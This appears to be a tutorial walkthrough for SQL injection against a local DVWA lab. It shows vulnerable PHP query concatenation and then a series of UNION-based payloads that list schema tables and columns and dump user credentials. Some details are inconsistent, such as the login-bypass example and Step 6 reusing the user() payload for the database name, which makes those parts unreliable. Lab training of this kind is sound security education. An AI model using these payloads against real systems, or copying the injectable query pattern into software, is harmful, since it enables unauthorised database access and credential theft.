 ## What is SQL injection (SQLi)?
- SQL injection is one of the most common attacks used by hackers to exploit any SQL database-driven web application. It’s a technique where SQL code/statements are inserted in the execution field with an aim of either altering the database contents, dumping useful database contents to the hacker, cause repudiation issues, spoof identity, and much more.

Let’s take a simple scenario where we have a web application with a login form with username and password fields. If the developer used PHP for development, the code would look like this:
```php
<?php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
$query .= " AND password = '" . $_POST['password'] . "'"; 
?>
```

If a user **Bob** with the password **12345** wanted to log in, after clicking the Submit or the Log in button, the query that would be sent to the database would look like this:
```
SELECT * FROM users WHERE username='Bob' AND password='12345'
```

If an attacker knew the username and wanted to bypass the login window, they would put something like Karen;-- in the username field. The resulting SQL query would look like this:
```
SELECT * FROM users WHERE username='Bob'; -- ' AND password='1111'
```

What the attacker has done, is adding the **-- (double-dash)** which comments the rest of the SQL statement. The above query will return the information entered in the password field making it easier for the attacker to bypass the login screen.

## Pre-requisites
It is expected that you have an up and running **DVWA** setup. If you have not yet installed DVWA on your Kali Linux system, I recommend you to setup up DVWA first.

### Step 1. Setup DVWA for SQL Injection
After successfully installing DVWA, open your browser and enter the required URL **127.0.0.1/dvwa/login.php** Log in using the username “admin” and password as “password”. These are the default DVWA login credentials. After a successful login, set the DVWA security to LOW then click on SQL Injection on the left-side menu.

![DVWA-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311507-0b61b195-902f-461b-9dae-4efcf1a18138.png)

### Step 2: Basic Injection
On the User ID field, enter `1` and click Submit. That is supposed to print the **ID**, **First_name**, and **Surname** on the screen as you can see below.

The SQL syntax being exploited here is:
```
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

![DVWA-Basic-SQL-Injection](https://user-images.githubusercontent.com/87711310/215311560-5f40c075-9a85-41fd-89e3-1a20217d0b67.png)

Interestingly, when you check the **URL**, you will see there is an **injectable parameter** which is the `ID`. Currently, my URL looks like this:

```
http://172.16.15.128/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
```

Let’s change the ID parameter of the URL to a number like **1**, **2**, **3**, **4** etc. That will also return the **First_name** and **Surname** of all users as follows:

```
ID: 2
First name: Gordon
Surname: Brown

ID: 3
First name: Hack
Surname: Me

ID: 4
First name: Pablo
Surname: Picasso
```

If you were executing this command directly on the DVWA database, the query for User ID 3 would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '3';
```

### Step 3: Always True Scenario

An advanced method to extract all the **First_names** and Surnames from the database would be to use the input: `%' or '0'='0'`

![always-true-injection](https://user-images.githubusercontent.com/87711310/215312500-aa366d48-3202-430b-b696-c2d46fcedcad.png)

The percentage `%` sign does not equal anything and will be false. The `'1'='1'` query is registered as `True` since `1 will always equal 1`. If you were executing that on a database, the query would look like this:

```
SELECT first_name, last_name FROM users WHERE user_id = '%' or '1'='1';
```

### Step 4: Display Database Version

To know the database version the DVWA application is running on, enter the text below in the User ID field.

```
%' or 0=0 union select null, version() #
```

The database version will be listed under surname in the last line as shown in the image below.

![Display-databse-version](https://user-images.githubusercontent.com/87711310/215312575-e4eb3220-3b58-40e6-8b6c-7cf5933bb931.png)

### Step 5: Display Database User
To display the Database user who executed the `PHP` code powering the database, enter the text below in the `USER ID` field.

```
%' or 0=0 union select null, user() #
```

The Database user is listed next to the surname field in the last line as in the image below.

![Display-database-user](https://user-images.githubusercontent.com/87711310/215312635-9c762216-088f-4023-8d31-aa90c3d72c63.png)


## Step 6: Display Database Name
To display the database name, we will inject the SQL code below in the `User ID` field.

```
%' or 0=0 union select null, user() #
```

The database name is listed next to the `surname` field in the last line.

![Display-database-name](https://user-images.githubusercontent.com/87711310/215312720-544711cf-ef6e-483c-a02c-26ee00a55e27.png)

### Step 7: Display all tables in information_schema

The **Information Schema** stores information about **tables**, **columns**, and all the other databases maintained by **MySQL**. To display all the tables present in the **information_schema**, use the text below.

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

![Database-schema](https://user-images.githubusercontent.com/87711310/215312779-b6e44ddc-b9fb-4fe8-8ce6-01bdd99d6697.png)

### Step 8: Display all the user tables in information_schema

For this step, we will print all the tables that start with the prefix user as stored in the **information_schema**. Enter the SQL code below in the `User ID`.

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

![User-tables](https://user-images.githubusercontent.com/87711310/215312862-ba13e852-b31d-47f1-8c98-79ba30d213d9.png)

### Step 9: Display all the columns fields in the information_schema user table
We will print all the columns present in the users’ table. This information will include column information like User_ID, first_name, last_name, user, and password. Enter the input in the User_ID field.

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

img

### Step 10: Display Column field contents
To display all the necessary authentication information present in the columns as stored in the information_schema, use the SQL syntax below:

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

img
